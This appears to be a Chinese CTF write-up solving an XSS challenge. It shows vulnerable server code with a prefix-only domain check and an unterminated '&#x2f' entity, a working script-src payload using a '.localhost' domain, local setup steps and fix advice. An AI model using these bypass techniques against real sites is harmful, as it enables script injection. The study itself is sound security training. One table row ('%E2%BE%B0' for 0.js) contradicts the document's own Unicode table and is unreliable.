


# XSS1.njhack.xyz 0x0A — JS Payload 错误解析 / HTML 实体吞字符绕过

> **题目地址**: `xss1.njhack.xyz/#/0x0A`  
> **难度**: ⭐⭐⭐ (中等偏上，坑点隐蔽)  
> **考点**: HTML 实体编码缺陷、URL 解析特性、域名绕过  
> **环境**: macOS + Chrome 浏览器  
> **Author**: Hackerchen

---

## 📌 0. TL;DR（一句话结论）

后端把 `/` 替换为 `&#x2f` **但漏了分号 `;`**，导致浏览器把 `&#x2f` 和后面紧跟的 **十六进制字符**（如 `a`、`b`、`0-9`）吞成一个 Unicode 字符。

- ❌ `/a.js` → 变成 `˺.js`（请求 `%CB%BA.js`）→ **加载失败**
- ✅ `/z.js` → 正常解析 → **加载成功，弹窗触发**

**最终 Payload:**
```
http://www.segmentfault.com.localhost:8000/z.js
```

---

## 🔍 1. 题目分析

### 1.1 题目界面

打开 `xss1.njhack.xyz/#/0x0A`，页面分为两部分：


- **左侧 input code**: 输入框，用于提交我们的 payload URL
- **右侧 server code**: 展示服务端的过滤/渲染逻辑

### 1.2 服务端代码逻辑

```javascript
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f')  // ⚠️ BUG: 这里少了分号 ;
  }

  const domainRe = /^https?:\/\/www\.segmentfault\.com/

  if (domainRe.test(input)) {
    return `<script src="${escapeHtml(input)}"></script>`
  }
  return 'Invalid URL'
}
```

### 1.3 关键观察

1. **域名校验**: 只检查 URL 是否以 `http(s)://www.segmentfault.com` **开头**
2. **没有检查域名边界**: 没有 `/`、`?`、`#` 等边界限制
3. **HTML 转义**: 将 `/` 替换为 `&#x2f`，但**缺少结尾分号**

---

## 🧠 2. 漏洞原理深度剖析

### 2.1 域名绕过技巧：利用 `.localhost` 伪 TLD

由于正则只做前缀匹配，我们可以构造：

```
http://www.segmentfault.com.localhost:8000/xxx.js
```

解析结果：
- 正则看到的是：`http://www.segmentfault.com...` ✅ 通过
- 浏览器实际访问的 host 是：`www.segmentfault.com.localhost`
- 通过 `/etc/hosts` 绑定后，实际指向我们本机 `127.0.0.1`

### 2.2 HTML 实体漏分号的致命 BUG

这是本题的**核心坑点**，也是整个调试过程最耗时的地方。

#### 正确的 HTML 实体写法

```
&#x2f;   ← 分号结尾，浏览器知道实体到这里结束
```

#### 题目的错误写法

```
&#x2f    ← 没有分号，浏览器会继续向后"贪婪匹配"十六进制字符
```

#### 实际发生了什么？

假设我们输入：
```
http://www.segmentfault.com.localhost:8000/a.js
```

服务端输出的 HTML：
```html
<script src="http:&#x2f&#x2fwww.segmentfault.com.localhost:8000&#x2fa.js"></script>
```

注意最后的 `&#x2fa.js`：
- 我们期望：`&#x2f` + `a.js` = `/a.js`
- 实际解析：`&#x2fa` 被当作一个实体（因为 `a` 是十六进制字符 0-9a-f）
- `&#x2fa` = Unicode U+02FA = `˺`（一个奇怪的符号）

最终浏览器请求的 URL 变成了：
```
http://www.segmentfault.com.localhost:8000˺.js
```

URL 编码后就是：
```
http://www.segmentfault.com.localhost:8000%CB%BA.js
```

**这个文件根本不存在，所以脚本加载失败！**

### 2.3 十六进制字符列表

会被"吞掉"的文件名首字符：
```
0 1 2 3 4 5 6 7 8 9 a b c d e f A B C D E F
```

**安全的文件名首字符**（不会被吞）：
```
g h i j k l m n o p q r s t u v w x y z G H I J K L M N O P Q R S T U V W X Y Z
```

---

## 🔬 3. 调试过程完整复盘

### 3.1 第一次尝试：使用 `@` 符号（失败）

最初的 payload：
```
https://www.segmentfault.com@http://localhost:8000/a.js
```

**失败原因**：
- `@` 在 URL 中是 userinfo 分隔符
- `@` 后面又塞了 `http://`，浏览器把 host 解析成 `http:`
- `//localhost:8000/a.js` 变成路径的一部分

### 3.2 第二次尝试：去掉第二个 `http://`（失败）

```
http://www.segmentfault.com@localhost:8000/a.js
```

**失败原因**：
- 现代 Chrome 会拦截"URL 里带 `@`（userinfo/embedded credentials）的子资源请求"
- 地址栏直接访问可以，但 `<script src=...>` 加载会被拦截

### 3.3 第三次尝试：使用 `.localhost` 伪 TLD（部分成功）

```
http://www.segmentfault.com.localhost:8000/a.js
```

**进展**：
- 域名解析通了（`*.localhost` 在现代系统解析到 `127.0.0.1`）
- 但还是不弹窗！

### 3.4 深入排查：发现真正的问题

在 DevTools Console（切换到 `sandbox (blob:...)` frame）执行诊断脚本：

```javascript
(() => {
  const scripts = [...document.scripts].map(s => s.src).filter(Boolean);
  const res = performance.getEntriesByType('resource').map(e => e.name);
  console.log('SCRIPT TAGS:', scripts);
  console.log('RESOURCE HITS:', res.filter(n => /localhost:8000|\.js/.test(n)));
})();
```

**输出结果**：
```
SCRIPT TAGS: ["http://www.segmentfault.com.localhost:8000/a.js"]
RESOURCE HITS: ["http://www.segmentfault.com.localhost:8000%CB%BA.js"]
```

**关键发现**：
- DOM 上写的是 `/a.js`
- 但实际请求的是 `%CB%BA.js`（`˺.js`）
- 这就是 HTML 实体漏分号导致的字符吞并！



> 📸 上图清晰显示：**SCRIPT TAGS** 是 `/a.js`，但 **RESOURCE HITS** 变成了 `%CB%BA.js`

### 3.5 最终解决：换文件名

把 `a.js` 改成 `z.js`（`z` 不是十六进制字符）：

```
http://www.segmentfault.com.localhost:8000/z.js
```

**成功触发弹窗！题目显示 YES！**

---

## 🛠️ 4. 完整复现步骤

### 4.1 配置本地环境

#### Step 1: 修改 hosts 文件

```bash
sudo vim /etc/hosts
```

添加一行：
```
127.0.0.1 www.segmentfault.com.localhost
```

保存后刷新 DNS：
```bash
# macOS
sudo dscacheutil -flushcache; sudo killall -HUP mDNSResponder

# Linux
sudo systemctl restart systemd-resolved
```

#### Step 2: 创建恶意 JS 文件

在任意目录创建 `z.js`：
```javascript
alert(1)
```

如果需要测试本地 HTML 加载，可以创建 `test.html`：
```html
<!doctype html>
<meta charset="utf-8" />
<script src="http://www.segmentfault.com.localhost:8000/z.js"></script>
```

#### Step 3: 启动本地 HTTP Server

```bash
cd /path/to/your/directory
python3 -m http.server 8000
```

#### Step 4: 验证本地环境

在浏览器访问：
```
http://www.segmentfault.com.localhost:8000/z.js
```

应该能看到 `alert(1)` 的源码内容。

### 4.2 提交 Payload

1. 打开 `xss1.njhack.xyz/#/0x0A`
2. 在 **input code** 框输入：
   ```
   http://www.segmentfault.com.localhost:8000/z.js
   ```
3. 提交
4. 观察结果：页面显示 **YES** 或弹出 `alert(1)`


---

## 📊 5. 证据截图说明

本 Writeup 包含以下截图：

| 文件名 | 内容 | 位置 |
|--------|------|------|
| `01-challenge-page.png` | 题目初始页面，显示 server code | 1.1 题目界面 |
| `02-success-yes.png` | 成功页面，显示 YES + payload | 4.2 提交 Payload |
| `03-network-zjs.png` | Network 面板，显示 z.js 正确加载 | 9. 最终答案 |

---

## 🧪 6. 进阶验证：证明吞字符现象

### 6.1 对比测试

| 文件名 | 输入 URL 末尾 | 实际请求路径 | 结果 |
|--------|--------------|-------------|------|
| `a.js` | `/a.js` | `%CB%BA.js` (˺.js) | ❌ 失败 |
| `b.js` | `/b.js` | `%CB%BB.js` (˻.js) | ❌ 失败 |
| `0.js` | `/0.js` | `%E2%BE%B0.js` | ❌ 失败 |
| `f.js` | `/f.js` | `%CB%BF.js` (˿.js) | ❌ 失败 |
| `z.js` | `/z.js` | `/z.js` | ✅ 成功 |
| `x.js` | `/x.js` | `/x.js` | ✅ 成功 |
| `payload.js` | `/payload.js` | `/payload.js` | ✅ 成功 |

### 6.2 Unicode 对应表

| 实体（漏分号） | 十六进制值 | Unicode 字符 | UTF-8 编码 |
|---------------|-----------|-------------|-----------|
| `&#x2fa` | 0x02FA | ˺ | `%CB%BA` |
| `&#x2fb` | 0x02FB | ˻ | `%CB%BB` |
| `&#x2fc` | 0x02FC | ˼ | `%CB%BC` |
| `&#x2fd` | 0x02FD | ˽ | `%CB%BD` |
| `&#x2fe` | 0x02FE | ˾ | `%CB%BE` |
| `&#x2ff` | 0x02FF | ˿ | `%CB%BF` |
| `&#x2f0` | 0x02F0 | ˰ | `%CB%B0` |

---

## 🛡️ 7. 修复建议（安全开发视角）

### 7.1 直接修复

HTML 实体**必须闭合分号**：

```javascript
// ❌ 错误
s.replace(/\//g, '&#x2f')

// ✅ 正确
s.replace(/\//g, '&#x2f;')
```

### 7.2 根本性修复

**不要手动拼接 HTML 生成 `<script src="user_input">`！**

更好的做法：
1. 使用 URL 解析器验证输入
2. 白名单校验允许的域名
3. 使用模板引擎的自动转义功能
4. 添加 CSP 头限制脚本来源

```javascript
// 示例：严格的 URL 验证
function isValidScriptUrl(input) {
  try {
    const url = new URL(input);
    // 严格检查 hostname
    if (url.hostname !== 'www.segmentfault.com') {
      return false;
    }
    // 只允许 HTTPS
    if (url.protocol !== 'https:') {
      return false;
    }
    // 限制路径
    if (!url.pathname.startsWith('/allowed-scripts/')) {
      return false;
    }
    return true;
  } catch {
    return false;
  }
}
```

### 7.3 防御层：CSP

添加 Content-Security-Policy 头：
```
Content-Security-Policy: script-src 'self' https://www.segmentfault.com
```

---

## 📚 8. 知识点总结

### 8.1 本题涉及的技术点

| 类别 | 知识点 |
|------|--------|
| **XSS** | 存储型 XSS、Script src 注入 |
| **URL 解析** | userinfo (`@`)、域名边界、`.localhost` TLD |
| **HTML 实体** | 十六进制实体、分号闭合规则、贪婪匹配 |
| **浏览器安全** | Private Network Access、Mixed Content、CSP |
| **调试技巧** | DevTools Network、Console、Performance API |

### 8.2 常见踩坑点

1. **直接访问 `.js` 不会弹窗**：浏览器把 `.js` 当资源展示，只有 `<script src=...>` 加载才执行
2. **CTF 可能重写 `alert()`**：不弹窗不代表没执行，看 Network 和题目通过标识
3. **`@` 在子资源加载中被拦截**：地址栏能访问 ≠ `<script src>` 能加载
4. **Console 看错 frame**：sandbox/blob 页面的错误在对应 frame 的 Console 里
5. **HTML 实体漏分号**：`&#x2f` 后面跟十六进制字符会被吞

### 8.3 调试方法论

```
1. 先验证本地环境（能否直接访问、能否 HTML 加载）
2. 再检查 Network（请求有没有发出、发到哪里）
3. 切换 Console frame（看 sandbox/blob 的报错）
4. 使用 Performance API 确认实际资源请求
5. 对比 DOM 内容和实际请求的差异
```

---

## 🎯 9. 最终答案

```
http://www.segmentfault.com.localhost:8000/z.js
```

**核心原因**：
- 利用 `.localhost` 伪 TLD 绕过域名前缀校验
- 避开 HTML 实体漏分号导致的十六进制字符吞并（用 `z` 而非 `a`）



---

## 📎 10. 相关资源

- [MDN: Data URLs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs)
- [MDN: Character references](https://developer.mozilla.org/en-US/docs/Glossary/Character_reference)
- [PortSwigger: XSS Labs](https://portswigger.net/web-security/cross-site-scripting)
- [Chrome: Private Network Access](https://developer.chrome.com/blog/private-network-access-update/)

---

## 📁 仓库结构

```
xss/
├── README.md                    # 仓库总览
└── njhack/
    └── 0x0A/
        ├── README.md            # 本 Writeup
        ├── assets/
        │   ├── 01-challenge-page.png    # 题目初始页面
        │   ├── 02-success-yes.png       # 成功截图 (YES)
        │   ├── 03-network-zjs.png       # Network 面板 - z.js 正确加载
        │   └── 04-console-cbba-proof.png # Console 证据 - %CB%BA 吞字符
        └── payload/
            └── z.js             # alert(1)
```

---

**Author**: Hackerchen 
**Date**: 2026-01-18  
**Platform**: xss1.njhack.xyz  
**Challenge**: 0x0A

---

> 💡 **写在最后**：这道题最坑的地方在于，表面上看是域名绕过 + 外部脚本加载，实际卡点是 HTML 实体编码的一个极其隐蔽的 bug。如果你一开始就用 `z.js` 而不是 `a.js`，可能根本不会发现这个问题。但正是这种"差一点点"的调试过程，才是真正学到东西的时候。
